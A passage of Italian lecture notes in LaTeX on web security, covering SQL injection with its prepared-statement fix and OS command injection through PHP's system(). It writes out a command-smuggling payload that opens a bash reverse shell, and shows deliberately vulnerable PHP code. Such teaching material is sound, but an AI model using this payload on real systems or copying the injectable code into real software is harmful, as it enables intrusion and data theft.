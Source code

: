 \begin{lstlisting}
    $eid = $mysqli->real_escape_string($_GET['EID']);
    $pwd = $mysqli->real_escape_string($_GET['Password']);

    $sql = "SELECT Name, Salary, SSN
    FROM employee
    WHERE eid='$eid' and password='$pwd'";
\end{lstlisting}

La soluzione definitiva è l'utilizzo dei \textbf{Prepared Statements}. Con questa 
tecnica, l'applicazione invia prima al database un template della query 
(canale del codice), usando dei placeholder (ad esempio "?"). Solo successivamente 
invia i parametri utente (canale dei dati) associandoli ai placeholder. 
Poiché il database conosce a priori la struttura logica del 
comando, i dati non vengono mai sottoposti a parsing come codice, 
neutralizzando l'attacco.

\begin{lstlisting}
    $sql = "SELECT Name, Salary, SSN <- Query template 
    FROM employee
    WHERE eid=? and password=?"; 
    $stmt = $conn->prepare($sql); <- Si invia il codice
    $stmt = $conn->bind_param("ss", $eid, $pwd); <- Si inviano i dati
    $stmt->execute(); <- Esecuzione
\end{lstlisting}

\subsection{OS Command Injection}

L'OS Command Injection avviene quando l'input dell'utente viene passato a 
una shell di sistema (es. Bash) senza un'adeguata sanitizzazione. L'uso di 
funzioni come \textbf{system()} in PHP è un vettore classico:
\begin{gather*}
    \text{system("ping " . \$\_GET['host']);}
\end{gather*}
dove il paramentro \textbf{\$\_GET['host']} è controllato dall'utente/attaccante!

La shell di sistema usa caratteri speciali per controllare il flusso di 
esecuzione, come ";" (separatore), "\&\&" (AND logico) o "||" (OR logico). 
Se un attaccante invia \textbf{example.com; malicious-command}, il sistema 
eseguirà regolarmente il ping e, subito dopo, il comando malevolo.
Tale vulnerabilità è particolarmente pericolosa in quanto permette all'attaccante
di ottenere accesso persistente invocando una reverse shell in bash:
\begin{gather*}
    \text{example.com; bash -c 'bash -i >\& /dev/tcp/127.0.0.1/12345 0>\&1'}
\end{gather*}

